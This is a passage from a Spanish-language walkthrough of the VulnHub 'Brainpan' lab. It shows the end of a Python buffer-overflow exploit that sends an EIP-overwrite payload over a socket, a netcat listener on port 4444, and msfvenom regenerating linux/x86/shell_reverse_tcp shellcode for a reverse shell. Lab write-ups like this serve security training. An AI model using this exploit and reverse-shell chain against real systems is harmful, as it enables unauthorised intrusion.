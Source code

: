 ```python
payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Enviando shellcode...")
  s.send(payload + b"\r\n")
  print("Conectado!")
except:
  print("No ha sido posible conectarse.")
  sys.exit(1)
```
{: file="exploit.py" }

### Prueba del exploit

Establecemos un listener con netcat por el puerto `4444`.

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-35.png)
_Establecemos un listener con nc_

Ejecutamos el exploit

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-36.png)
_Ejecutamos el exploit_

Ganamos acceso a la máquina.

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-38.png)
_Logramos explotar el buffer overflow en la máquina Windows 7 de Debugging_

### Exploit final y acceso a la máquina víctima

Ahora que tenemos pronto y probado el exploit, debemos generar el shellcode acorde al sistema operativo de la máquina victima, que en este caso es Linux. Por lo tanto, volvemos a ejecutar `msfvenom` indicando como payload `linux/x86/shell_reverse_tcp`.
